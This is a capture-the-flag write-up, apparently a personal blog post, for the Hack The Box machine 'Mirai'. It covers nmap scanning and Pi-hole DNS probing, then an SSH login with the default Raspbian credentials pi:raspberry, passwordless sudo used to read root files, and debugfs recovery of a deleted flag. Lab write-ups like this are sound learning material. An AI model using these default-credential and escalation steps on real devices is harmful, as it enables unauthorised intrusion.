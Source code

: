 ```yaml
---
layout: page
title:  "MIRAI"
permalink: /mirai/
---
```

[Or not, back to HOME!](/)<br>
<br>
<br>
<br>
<br>
# MIRAI
{: .fw-300 .lh-0 }
#### SUMMARY
{: .fs-6 .fw-300 .lh-0 }
<!-- excerpt-start -->
Content of a sensitive file is still on disk i.e. not overwritten, despite the file itself got deleted. Such content is viewable by user root. User pi can run all commands as root.<br>
<br>
Pi as part of a default Raspbian install, does not have its password changed. Such password is the only auth required to ssh in as pi, and ssh is available to everyone.<br>
<!-- excerpt-end -->
<br>
<br>
<br>
<br>
<br>
<br>
#### REFERENCE
{: .fs-6 .fw-300 .lh-0 }
[Pi-hole Userspace](https://discourse.pi-hole.net/)<br>
[Whitelist pre-populated on install?](https://www.reddit.com/r/pihole/comments/4z03ow/whitelist_prepopulated_on_install/)<br>
<br>
<br>
<br>
<br>
<br>
<br>
#### WALKTHROUGH
{: .fs-6 .fw-300 .lh-0 }
[Skip to accidentally obtaining foothold!](/mirai/#foothold)<br>
[Skip to obtaining root!](/mirai/#root)<br>
<br>
<br>
Surface check.<br>
`nmap -p- mirai.htb | awk -F/ '/^[[:digit:]]/ {ports=ports$1","} END{print ports}' | xargs -I{} nmap -sV -sC -p{} mirai.htb -oA tcp_all`<br>
[Skid found awk and about to shop options at nmap docs to make this line less stupid.]<br>
<details close markdown="block">
<summary>
Scan result.
</summary>
```
Host is up (0.79s latency).
PORT      STATE  SERVICE        VERSION
22/tcp    open   ssh            OpenSSH 6.7p1 Debian 5+deb8u3 (protocol 2.0)
| ssh-hostkey: 
|   1024 aa:ef:5c:e0:8e:86:97:82:47:ff:4a:e5:40:18:90:c5 (DSA)
|   2048 e8:c1:9d:c5:43:ab:fe:61:23:3b:d7:e4:af:9b:74:18 (RSA)
|   256 b6:a0:78:38:d0:c8:10:94:8b:44:b2:ea:a0:17:42:2b (ECDSA)
|_  256 4d:68:40:f7:20:c4:e5:52:80:7a:44:38:b8:a2:a7:52 (ED25519)
53/tcp    open   domain         dnsmasq 2.76
| dns-nsid: 
|_  bind.version: dnsmasq-2.76
80/tcp    open   http           lighttpd 1.4.35
|_http-server-header: lighttpd/1.4.35
|_http-title: Website Blocked
1244/tcp  closed isbconference1
32400/tcp open   http           Plex Media Server httpd
| http-auth: 
| HTTP/1.1 401 Unauthorized\x0D
|_  Server returned status 401 but no WWW-Authenticate header.
|_http-cors: HEAD GET POST PUT DELETE OPTIONS
|_http-favicon: Plex
|_http-title: Unauthorized
32469/tcp open   upnp           Platinum UPnP 1.0.5.13 (UPnP/1.0 DLNADOC/1.50)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
</details>
Per nmap, ssh is open on port 22, domain service is open on port 53, and http is open on port 80 with "http-title: Website Blocked". `searchsploit`: nothing interesting.<br>
<br>
<br>
Maybe the virtual host if any is not `mirai.htb` and this causes blocking. Scan again but with ip supplied. `nmap -sV -sC -p80 10.10.10.48`, still "http-title: Website Blocked". Decide to manual check.<br>
<a id="foothold"></a>
`curl 10.10.10.48 -v` response contains header "X-Pi-hole: A black hole for Internet advertisements". [Thought it was a firewall with troll built in for a moment but.] Need to unhole our target.<br>
<br>
<br>
Visit Pi-hole website, right on the frontpage: "Our Web interface offers control of your Pi-hole and a central place to view statistics". Actually prefer "Our Web interface offers statistics of your Pi-hole and a central place to control it". Could waste time trying to log into this web thing, if unblock functionality is not even part of it.<br>
Fail to locate relevant info in documentation. Decide to dig in [discourse](https://discourse.pi-hole.net/). Go through postings and unexpected enough: different discourse accounts but in their screenshots, web interface all have the same url, `pi.hole`. A public DNS server couldn't possibly know out of all the Pi-hole instances which one to point to right. Resolving such domain sure can rely on users manually config their local DNS cache, but for an application proudly claim offering "network-wide" protection? Ehh. Also, wouldn't it be weird if such domain is up to users to set up and multiple cute home users in a roll all come up with this boring ass name `pi.hole`?<br>
Chances are this Pi-hole thing comes with its own DNS server and users only need to adjust some router settings to achieve "network-wide" typing in the given `pi.hole` and getting the web console page experience. Anyways, if a DNS server has record for `pi.hole`, this DNS server almost certainly belongs to a Pi-hole itself.<br>
Recall that per nmap, there is one domain service open on port 53, might as well test it. If it leads to the Pi-hole, need to search for exploits despite `searchsploit` says nothing, maybe then we get to unblock target somehow; if not, can only download Pi-hole and check out web interface that way, should be faster now that no luck at discourse.<br>
<br>
<br>
`dig pi.hole @10.10.10.48`<br>
```
;; QUESTION SECTION:
;pi.hole.			IN	A
;; ANSWER SECTION:
pi.hole.		300	IN	A	192.168.204.129
```
[I know nothing about network if you haven't noticed, but why the ip is not `10.10.10.48`?]<br>
`ping 192.168.204.129` hangs.<br>
`dig -x 192.168.204.129 @10.10.10.48`<br>
```
;; QUESTION SECTION:
;129.204.168.192.in-addr.arpa.	IN	PTR
;; ANSWER SECTION:
129.204.168.192.in-addr.arpa. 300 IN	PTR	raspberrypi.
```
[I know nothing about network if you haven't noticed, but why the name is not `pi.hole`?]<br>
The returned host name of that Pi-hole thing is `raspberrypi`. According to Pi-hole documentation: "Despite the name, you are not limited to running Pi-hole on a Raspberry Pi. Any hardware that runs one of the supported operating systems will do". But now it seems to really be a Raspbian, yeee.<br>
No idea if the ssh open on port 22 belongs to this Raspbian as well, but decide to test ssh in with default cred `pi:raspberry` real quick before searching exploits for the domain service.<br>
<br>
<br>
Greeted.<br>
```
SSH is enabled and the default password for the 'pi' user has not been changed.
This is a security risk - please login as the 'pi' user and type 'passwd' to set a new password.
```
`pihole status`<br>
```
::: DNS service is running
::: Pi-hole blocking is Enabled
```
`pihole -b -l`<br>
```
Displaying domains caught in the sinkhole:
/opt/pihole/list.sh: line 184: /etc/pihole/blacklist.txt: No such file or directory
```
`pihole -w -l`<br>
```
Displaying gravity resistant domains:
1: raw.githubusercontent.com
2: mirror1.malwaredomains.com
3: sysctl.org
4: zeustracker.abuse.ch
5: s3.amazonaws.com
6: hosts-file.net
```
According to [this reddit thread](https://www.reddit.com/r/pihole/comments/4z03ow/whitelist_prepopulated_on_install/), a default whitelist contains all the above entries.<br>
[I essentially blue-screened at this result for quite some time.]<br>
`cd /home/pi; ls`<br>
```
background.jpg  Desktop  Documents  Downloads  Music  oldconffiles  Pictures  Public  python_games  Templates  Videos
```
`cd Desktop; ls`<br>
```
Plex  user.txt
```
[Target is a lie!]<br>
<br>
<br>
<a id="root"></a>
Hats, hats time (it is `sudo -l` that worked).<br>
```
User pi may run the following commands on localhost:
    (ALL : ALL) ALL
    (ALL) NOPASSWD: ALL
```
`sudo cat /root/root.txt`<br>
```
I lost my original root.txt! I think I may have a backup on my USB stick...
```
<br>
<br>
`df | grep sd` contains mount point `/media/usbstick`.<br>
`cd /media/usbstick; ls`<br>
```
damnit.txt  lost+found
```
`lost+found` empty, content of `damnit.txt` pretty much foreseeable.<br>
```
Damnit! Sorry man I accidentally deleted your files off the USB stick.
Do you know if there is any way to get them back?
-James
```
[Probably not after you wrote a new file, James.]<br>
[Better `grep` for that MD5, but I want to test something.]<br>
```
debugfs:  blocks damnit.txt
8235 
debugfs:  block_dump 8234
0000  3364 3365 3438 3331 3433 6666 3132 6563  3d3e483143ff12ec
0020  3530 3564 3032 3666 6131 3365 3032 3062  505d026fa13e020b
0040  0a00 0000 0000 0000 0000 0000 0000 0000  ................
0060  0000 0000 0000 0000 0000 0000 0000 0000  ................
*
```
<br>
<br>
That's it for the box.
